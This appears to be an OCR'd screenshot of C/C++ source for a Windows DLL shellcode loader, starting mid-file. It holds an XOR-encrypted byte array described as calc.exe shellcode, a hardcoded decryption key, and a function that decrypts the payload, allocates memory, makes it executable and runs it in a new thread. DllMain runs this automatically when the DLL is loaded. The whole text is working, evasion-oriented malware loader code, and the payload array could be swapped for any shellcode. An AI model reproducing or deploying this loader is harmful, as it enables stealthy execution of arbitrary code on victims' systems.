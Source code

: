```cpp
	}
}

// Calc.exe shellcode (exit function = thread)
unsigned char payload[] = { 0xac,0x08,0xf0,0x97,0x87,0xd8,0xf0,0x30,0x72,0x64,0x60,0x01,0x01,0x23,0x21,0x26,0x66,0x78,0x01,0xa0,0x01,0x69,0xdb,0x12,0x13,0x3b,0xfc,0x62,0x28,0x78,0xf9,0x36,0x01,0x18,0xcb,0x01,0x23,0x3f,0x3f,0x87,0x7a,0x38,0x29,0x10,0x99,0x08,0x42,0xb3,0xdb,0x0c,0x51,0x4c,0x70,0x48,0x01,0x11,0x81,0xba,0x7e,0x36,0x31,0xf1,0xd2,0x9f,0x36,0x60,0x01,0x08,0xf8,0x21,0x57,0xbb,0x72,0x0c,0x3a,0x65,0xf1,0xdb,0xc0,0xfb,0x73,0x77,0x30,0x78,0xb5,0xb2,0x10,0x46,0x18,0x41,0xa3,0x23,0xfc,0x78,0x28,0x74,0xf9,0x24,0x01,0x19,0x41,0xa3,0x90,0x21,0x78,0xcf,0xf9,0x33,0xef,0x15,0xd8,0x08,0x72,0xa5,0x3a,0x01,0xf9,0x78,0x43,0xa4,0x8d,0x11,0x81,0xba,0x7e,0x36,0x31,0xf1,0x08,0x92,0x11,0xd0,0x1c,0x43,0x3f,0x57,0x7f,0x75,0x09,0xe1,0x07,0xbc,0x79,0x14,0xcb,0x33,0x57,0x3e,0x31,0xe0,0x56,0x33,0xef,0x2d,0x18,0x04,0xf8,0x33,0x6b,0x79,0x31,0xe0,0x33,0xef,0x25,0xd8,0x08,0x72,0xa3,0x36,0x68,0x71,0x68,0x2c,0x3d,0x7b,0x11,0x18,0x32,0x2a,0x36,0x6a,0x78,0xb3,0x9e,0x44,0x60,0x02,0xbf,0x93,0x2b,0x36,0x69,0x6a,0x78,0xf9,0x76,0xc8,0x07,0xbf,0x8c,0x8c,0x2a,0x78,0x8a,0x31,0x72,0x64,0x21,0x50,0x40,0x73,0x73,0x3f,0xbd,0xbd,0x31,0x73,0x64,0x21,0x11,0xfa,0x42,0xf8,0x18,0xb7,0xcf,0xe5,0xc9,0x84,0x3c,0x7a,0x4a,0x32,0xc9,0xd1,0xa5,0x8d,0xad,0x8d,0xb1,0x69,0xd3,0x84,0x5b,0x4f,0x71,0x4c,0x3a,0xb0,0x89,0x84,0x54,0x55,0xfb,0x34,0x60,0x05,0x5f,0x5a,0x30,0x2b,0x25,0xa8,0x8a,0xbf,0xa6,0x10,0x16,0x5c,0x53,0x1e,0x17,0x1c,0x44,0x50 };
unsigned int payload_len = sizeof(payload);

// Standard function to allocate memory, copy shellcode to it, and execute the thread
extern __declspec(dllexport) int RunThis(void);
int RunThis(void) {

	void* exec_mem;
	BOOL rv;
	HANDLE th;
	DWORD oldprotect = 0;

	// Decryption key
	char key[] = "P@ssw000rd!";

	// Decrypt the shellcode
	XOR((char*)payload, payload_len, key, sizeof(key));

	// Allocate memory
	exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

	// Copy payload to the buffer
	RtlMoveMemory(exec_mem, payload, payload_len);

	// Make the buffer executable
	rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);

	// If all good, run the shellcode
	if (rv != 0) {
		th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)exec_mem, 0, 0, 0);
		WaitForSingleObject(th, 0);
	}
	

	return 0;
}

//Runs as the Main() function
BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) {

	switch (fdwReason) {
		//DLL_PROCESS_ATTACH will run when the DLL is loaded within a process
	case DLL_PROCESS_ATTACH:
		RunThis();
		break;
```